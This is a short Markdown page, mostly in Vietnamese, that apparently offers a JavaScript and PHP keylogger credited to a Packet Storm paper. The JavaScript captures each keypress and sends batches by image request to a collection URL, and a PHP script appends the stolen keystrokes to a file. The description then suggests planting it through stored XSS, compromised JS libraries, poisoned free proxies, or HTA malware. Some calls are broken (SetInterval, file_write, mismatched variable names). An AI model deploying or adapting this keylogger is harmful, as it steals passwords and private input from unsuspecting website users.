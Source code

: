 ```yaml
---
title: Javascript,PHP Keylogger
date: 30/5/2021
layout: single


  
--- 
```

---
## Credits: Ismailtasdelen
[https://dl.packetstormsecurity.net/papers/general/xss-keylogger.pdf](https://dl.packetstormsecurity.net/papers/general/xss-keylogger.pdf) 
## Language
[![Language](https://img.shields.io/badge/Lang-javascript-blue.svg)](https://www.javascript.com/)
[![Language](https://img.shields.io/badge/Lang-php-blue.svg)](https://www.php.net/)


--- 

## Mã Kiểm Tra 

# Javascript

```js
var buffer = [];
var url = 'http://localhost/?q='

document.onkeypress = function(e) {
    var timestamp = Date.now() | 0;
    var stroke = {
          k: e.key,
          t: timestamp
    };
    buffer.push(stroke);
}

window.SetInterval(function() {
    if (buffer.length > 0) {
          var data = encodeURIComponent(JSON.stringify(buffer));
          new Image().src = url + data;
          buffer = [];
    }
}, 200);
```

---
# PHP

```php
<?php
if(!empty($_GET['q'])) {
    $logfile = fopen('data.txt', 'a+');
    file_write($log_file, $_GET['q']);
    file_close($log_file);
}
?>

```
---


# Mô Tả 
## Làm thế nào nó hoạt động?
Trên trình kích hoạt: onkeypress. Phím được nhấn bởi máy khách sẽ được gửi đến máy chủ trên localhost /? Q = (key_here)
Máy chủ sẽ nhận điều này thông qua tập lệnh PHP: Nhận đầu vào từ Q và ghi vào tệp.

Những cải tiến có thể được thực hiện: Ví dụ: triển khai websockets, Ajax, v.v. và gửi dữ liệu trong thời gian thực.

## Tôi có thể sử dụng cái này ở đâu?
XSS được lưu trữ trên các trang web? Thỏa hiệp các thư viện / trang web JS và nhúng JS độc hại.
Chạy proxy miễn phí của riêng bạn và đầu độc người dùng bằng JS độc hại (và bộ nhớ cache) Xem tại link bên dưới 
+ [ https://blog.haschek.at/2013/05/why-free-proxies-are-free-js-infection.html]( https://blog.haschek.at/2013/05/why-free-proxies-are-free-js-infection.html) 
+ [ https://blog.haschek.at/2015-analyzing-443-free-proxies](https://blog.haschek.at/2015-analyzing-443-free-proxies) 

Tạo khối lượng phần mềm độc hại của riêng bạn với HTA: html có thể thực thi, v.v.
Chỉ là một số ý tưởng.

## Chúc May Mắn :D
